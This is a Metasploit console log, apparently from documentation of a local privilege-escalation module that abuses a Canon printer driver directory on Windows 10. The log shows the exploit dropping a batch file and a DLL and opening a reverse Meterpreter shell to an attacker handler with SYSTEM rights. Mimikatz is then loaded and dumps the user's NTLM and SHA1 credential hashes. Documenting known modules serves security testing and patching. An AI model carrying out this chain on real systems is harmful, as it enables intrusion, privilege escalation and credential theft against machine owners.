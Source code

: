 ```
[*] Writing DLL file to C:\Users\test\AppData\Local\Temp\CNMurGE.dll
[*] Adding printer SFywU...
[*] Deleting printer SFywU
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/canon_driver_privesc) > exploit

[*] Started reverse TCP handler on 192.168.224.128:8877
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon language driver directory grants Users full permissions
[*] Dropping batch script to C:\Users\test\AppData\Local\Temp\dsrlKmQ.bat
[*] Writing DLL file to C:\Users\test\AppData\Local\Temp\CNMurGE.dll
[*] Adding printer HRudL...
[*] Sending stage (200262 bytes) to 192.168.224.211
[+] Deleted C:\Users\test\AppData\Local\Temp\dsrlKmQ.bat
[+] Deleted C:\Users\test\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (192.168.224.128:8877 -> 192.168.224.211:61310) at 2021-08-09 14:13:12 -0500
[*] Deleting printer HRudL

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-DIK4B96
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege

meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain           NTLM                              SHA1
--------  ------           ----                              ----
test      DESKTOP-DIK4B96  0cb6948805f797bf2a82807973b89537  87f8ed9157125ffc4da9e06a7b8011ad80a53fe1
```